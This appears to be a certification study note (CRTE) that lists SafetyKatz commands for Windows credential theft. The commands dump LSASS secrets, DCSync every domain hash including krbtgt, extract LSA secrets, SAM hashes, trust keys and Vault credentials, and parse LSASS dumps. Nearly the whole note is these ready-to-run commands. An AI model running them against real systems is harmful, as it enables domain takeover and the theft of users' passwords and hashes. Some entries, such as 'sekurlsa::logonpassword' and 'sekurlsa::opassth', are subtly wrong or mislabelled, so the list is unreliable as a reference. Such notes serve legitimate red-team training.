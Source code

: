 # Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz

**Extracts Kerberos encryption keys (AES/NTLM) from LSASS:**
```cmd
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

**Alternative to `ekeys` for Kerberos keys extraction:**
```cmd
SafetyKatz.exe "sekurlsa::keys" "exit"
```

**Performs DCSync to pull all domain user hashes (requires DA rights):**
```cmd
SafetyKatz.exe "lsadump::dcsync" "exit"
```

**DCSync for a specific user (e.g., krbtgt for Golden Tickets):**
```cmd
SafetyKatz.exe "lsadump::dcsync /user:DOMAIN\krbtgt" "exit"
```

**Dumps plaintext passwords and NTLM hashes from LSASS:**
```cmd
SafetyKatz.exe "sekurlsa::logonpassword" "exit"
```

**Retrieves LSA secrets (cached domain creds, service accounts):**
```cmd
SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

**Extracts domain trust keys (for Golden Ticket attacks across forests):**
```cmd
SafetyKatz.exe "lsadump::trust" "exit"
```

**Dumps local SAM database (non-domain user hashes):**
```cmd
SafetyKatz.exe "lsadump::sam" "exit"
```

**Lists saved credentials in Windows Vault (e.g., RDP/Wi-Fi passwords):**
```cmd
SafetyKatz.exe "vault::list" "exit"
```

**Decrypts and extracts Windows Vault credentials:**
```cmd
SafetyKatz.exe "vault::cred /patch" "exit"
```

**Parses an LSASS memory dump (offline credential extraction):**
```cmd
SafetyKatz.exe "sekurlsa::minidump lsass.dmp" "exit"
```

**Extracts Kerberos TGTs for Pass-the-Ticket attacks:**
```cmd
SafetyKatz.exe "sekurlsa::opassth" "exit"
```